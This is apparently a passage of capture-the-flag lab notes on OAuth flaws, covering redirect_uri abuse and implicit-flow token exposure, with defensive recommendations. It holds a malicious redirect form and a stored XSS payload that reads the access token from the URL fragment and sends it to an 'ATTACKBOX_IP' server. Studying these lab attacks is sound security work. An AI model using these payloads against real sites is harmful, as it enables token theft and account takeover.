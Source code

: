 3. **Exploitation**
   - Attacker captures authorization code
   - Exchanges it for valid access token
   - Can then access victim's resources
### Exploit Code
Malicious redirect page exemple:
```html
<form action="http://coffee.thm:8000/oauthdemo/oauth_login/" method="get">
    <input type="hidden" name="redirect_uri" value="http://dev.bistro.thm:8002/malicious_redirect.html">
    <input type="submit" value="Login">
</form>
```
### Protection
- Strictly validate redirect_uri
- Regularly audit authorized domains
- Implement additional security controls
## OAuth Implicit Grant Flow Vulnerability
The implicit grant flow directly returns access tokens to the client through the browser without an authorization code.
### Key Vulnerabilities
- **Access token exposed in URL** fragment
- Tokens **accessible to any JavaScript on the page**
- **Vulnerable to XSS** attacks
- **Insecure token storage** (localStorage/sessionStorage)
### Attack Example
Put this payload in a form to store it in the server.
**Exploit Payload**
```javascript
<script>
var hash = window.location.hash.substr(1);
var result = hash.split('&').reduce(function (res, item) {
    var parts = item.split('=');
    res[parts[0]] = parts[1];
    return res;
}, {});
var accessToken = result.access_token;
var img = new Image();
img.src = 'http://ATTACKBOX_IP:8081/steal_token?token=' + accessToken;
</script>
```
### Attack Flow
1. Attacker enters malicious XSS payload in status field
2. Page refresh executes the payload
3. Script extracts access token from URL fragment
4. Token sent to attacker's server
5. Attacker gains unauthorized access
### Security Recommendations
- Replace implicit flow with authorization code flow + PKCE
- Implement strict **HTTPS**
- **Validate redirect URIs**
- **Protect against XSS** attacks